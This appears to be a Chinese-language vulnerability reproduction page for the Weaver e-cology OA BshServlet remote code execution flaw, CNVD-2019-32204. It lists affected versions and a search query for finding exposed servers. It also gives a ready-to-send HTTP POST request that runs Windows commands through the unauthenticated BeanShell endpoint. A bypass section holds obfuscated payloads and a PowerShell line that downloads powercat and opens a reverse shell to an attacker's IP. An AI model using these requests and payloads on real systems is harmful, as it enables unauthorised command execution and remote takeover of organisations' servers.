

# 泛微OA E-Cology BshServlet 远程代码执行漏洞 CNVD-2019-32204

## 漏洞描述

2019年9月17日泛微OA官方更新了一个远程代码执行漏洞补丁, 泛微e-cology OA系统的Java Beanshell接口可被未授权访问, 攻击者调用该Beanshell接口, 可构造特定的HTTP请求绕过泛微本身一些安全限制从而达成远程命令执行, 漏洞等级严重.

## 网络测绘

<a-checkbox checked>app=“泛微-协同办公OA”</a-checkbox></br>

## 影响版本

<a-checkbox checked>E-cology 7.0</a-checkbox></br>
<a-checkbox checked>E-cology 8.0</a-checkbox></br>
<a-checkbox checked>E-cology 8.1</a-checkbox></br>
<a-checkbox checked>E-cology 9.0</a-checkbox></br>

## 漏洞复现

直接在网站根目录后加入组件访问路径 `/weaver/bsh.servlet.BshServlet/`，如下图在victim上执行了命令“whoami”




请求包为

```shell
POST /weaver/bsh.servlet.BshServlet HTTP/1.1
Host: xxxxxxxx:8088
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Length: 98
Content-Type: application/x-www-form-urlencoded

bsh.script=ex\u0065c("cmd /c dir");&bsh.servlet.captureOutErr=true&bsh.servlet.output=raw
```

关于绕过

```shell
eval%00("ex"%2b"ec(\"whoami\")");
ex\u0065c("cmd /c dir");
IEX(New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1');powercat -c ip -p 6666 -e cmd
```


## 